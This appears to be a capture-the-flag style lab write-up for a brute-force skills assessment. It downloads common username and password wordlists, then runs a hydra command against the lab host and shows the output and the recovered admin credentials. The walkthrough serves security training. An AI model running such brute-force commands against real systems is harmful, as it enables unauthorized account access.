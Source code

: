 ﻿The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement:Â [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)Â andÂ [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

![Pasted image 20250213155858.png](../../../../IMAGES/Pasted%20image%2020250213155858.png)

Let's begin by downloading both wordlists to our machine:

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt 
```

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

Once we've got everything, let's begin with the bruteforce process, we can use hydra for this process:

```
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 42572 http-get -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:02:48
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-get://94.237.54.164:42572/
[42572][http-get] host: 94.237.54.164   login: admin   password: Admin123
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`admin`:`Admin123`
```

Let's log in now:

![Pasted image 20250213160445.png](../../../../IMAGES/Pasted%20image%2020250213160445.png)

We got the username:

```
satwossh
```
